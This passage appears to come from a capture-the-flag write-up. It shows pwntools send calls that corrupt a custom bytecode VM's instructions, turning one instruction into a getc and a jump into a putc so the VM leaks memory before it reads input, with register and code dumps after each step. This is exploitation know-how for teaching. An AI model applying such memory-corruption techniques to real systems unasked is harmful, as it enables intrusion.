 
What happens if we fire again?

```python
io.send(b'\x01')
```

Turns out that we decrement the same instruction down to a `getc [mp]`!

```
CODE:   0x00007ffc8181bed8
  80: 01fe0001  inc     mp
  84: 04fd0004  getc    [mp]
  88: 000d0107  jz      0xb4
  8c: 01064104  getc    [mp]    <- ip
  90: 00000101  inc     mp
  94: 00040008  jnz     0x90
  98: 00000004  getc    [mp]
  9c: 000a0007  jz      0xa8
  a0: 00000002  dec     mp
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
  b4: 00000006  dec     [mp]
  ...
REGISTERS:
mp: 0x8c -> 0x04
ip: 0x03 -> 01064104    getc    [mp]
```

Notice where mp points to. I want to keep this getc for later, so I must preserve that instruction.

---

Now we send the next bytes to satisfy one of our conditions: leak info before receiving input

```python
io.send(b'\x04\x00\x00\x01\x03')
```

We modified the jump at 0x94 to have a `putc [mp]`!

```
CODE:   0x00007ffef7bc1db8
  80: 01fe0001  inc     mp
  84: 04fd0004  getc    [mp]
  88: 000d0107  jz      0xb4
  8c: 01064104  getc    [mp]
  90: 00000101  inc     mp
  94: 00040103  putc    [mp]
  98: 00000004  getc    [mp]    <- ip
  9c: 000a0007  jz      0xa8
  a0: 00000002  dec     mp
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
  b4: 00000006  dec     [mp]
  ...
REGISTERS:
mp: 0x95 -> 0x01
ip: 0x06 -> 00000004    getc    [mp]
```

---